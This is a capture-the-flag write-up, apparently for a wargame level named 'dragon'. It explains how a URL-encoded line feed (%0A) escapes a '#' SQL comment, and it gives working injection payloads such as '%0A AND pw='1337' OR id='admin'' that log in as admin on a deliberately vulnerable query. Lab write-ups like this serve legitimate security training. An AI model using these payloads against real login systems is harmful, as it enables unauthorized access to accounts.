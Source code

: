 ```yaml
---
custom_edit_url: null
sidebar_position: 20
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/468d8f1f-52df-469c-b3d7-ab9fe0a496f0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw='{$_GET[pw]}'
```

As we can see, the code comments out the part where our input is inserted within the query.

We can get around this by using the Line Feed (`%0A`) character, which causes the rest of the SQL query to be pushed onto the next line. The Hash (`#`) only only comments out the query on the same line.

If we provide the following URI parameter:

```
?pw='%0A OR id='admin' 
```

The resultant query becomes:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw=''
OR id='admin' 
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/92b67e86-55ba-43de-9032-fa1b61ee5fa7)

As we can see, the `OR id='admin'` part is not commented out, just as expected.

Since we want the second part of the query to be executed, we have to make the first part return `False`. We can do so by providing the following URI parameter:

```
?pw='%0A AND pw='1337' OR id='admin' 
```

The resultant query becomes:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw=''
AND pw='1337' OR id='admin' 
```

Since there is no `id='guest'` with `pw='1337'`, the first part will return `False`.

![3](https://github.com/Kunull/Write-ups/assets/110326359/a2f5e482-30c0-4e1a-96a7-ce87efaabced)
